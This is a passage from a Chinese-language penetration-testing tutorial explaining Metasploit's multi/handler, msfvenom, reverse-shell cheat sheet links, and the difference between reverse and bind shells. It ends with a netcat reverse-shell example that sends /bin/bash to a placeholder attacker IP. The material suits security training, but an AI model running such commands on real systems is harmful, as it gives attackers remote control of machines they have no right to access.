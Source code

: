 > Netcat和Socat在 Windows 上都有.exe 版本

**Metasploit -- multi/handler**

Metasploit 框架的 auxiliary/multi/handler 模块与 socat 和 netcat 一样，可以用于接收反向 shell。由于是 Metasploit 框架的一部分，multi/handler 提供了一种获得稳定 shell 的完全成熟的方法，并提供了多种进一步改进所捕获的 shell 的选项。 multi/handler模块是可以与 meterpreter shell 进行交互的方法，并且也是处理分段payload（有效载荷）的最简单方法。

**Msfvenom**

与multi/handler一样，msfvenom在技术上也是 Metasploit 框架的一部分，然而，它是作为一个独立的工具发布的。msfvenom用于动态生成payload，Msfvenom可以产生除了反向shell和绑定shell以外的其他payload（有效载荷）。

除了我们已经介绍过的工具之外，还有许多用不同编程语言书写的 关于shell利用的项目和资料，比如：

1. https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md
2. https://web.archive.org/web/20200901140719/http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
3. Kali Linux 预先安装了各种webshells，默认路径是：/usr/share/webshells
4. 还有一个项目虽然主要是发挥字典功能，但是也包含了一些非常有用的 用于获取shell的代码：https://github.com/danielmiessler/SecLists

## shell类型

从更高的层次上来说，当涉及到一个可利用目标时，我们只对两种 shell 感兴趣:

1. 反向 shell ，
2. 绑定 shell。

**Reverse shells（反向shell）**

反向 shell 是指目标被迫执行一段代码 并以此连接到你的计算机，在你自己的计算机上，你可以使用前面提到的工具之一来设置一个用于接收连接的监听器。

反向 shell 是绕过防火墙规则的一个好方法，因为防火墙规则 可能会阻止你正向连接到目标上的任意端口；然而，有一个缺点是：当从互联网上的一台机器接收 shell 时，你需要先配置好你自己的网络。

**Bind shells（绑定shell）**

当在目标上执行的代码用于启动一个直接连接到目标机器的shell的监听器时，就称为绑定 shell，这将使目标向互联网开放，这意味着你可以连接到代码打开的端口，并通过这种方式获得远程代码执行。

这样做的好处是 不需要你在自己的网络上进行任何配置，但是该行为可能会被保护目标的防火墙加以阻止。

_一般情况下，反向 shell 更容易执行和调试。_

**反向shell的例子**

请看下面的图片。 在左边，我们有一个反向 shell 侦听器——它接收连接，而右边是发送反向 shell 的模拟目标。实际上，这更可能是通过远程网站上的代码注入或类似的注入来完成的。 把左边的图像想象成你自己的电脑，把右边的图像想象成你的目标。

```shell
#在攻击机（你的kali系统）上:
sudo nc -lvnp 443

#在目标机上：
nc <LOCAL-IP> <PORT> -e /bin/bash     #<LOCAL-IP> <PORT> 指的是攻击机上的ip和正在监听的端口
```

![image-20220923212740545](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20220923212740545.png)

注意，在右边运行命令之后，左边的监听器将接收到一个连接，连接成功后，运行 whoami 命令，能看到我们能够作为目标用户去执行命令，重要的是：我们在监听我们自己的攻击机上的端口，由目标机发送连接到攻击机。
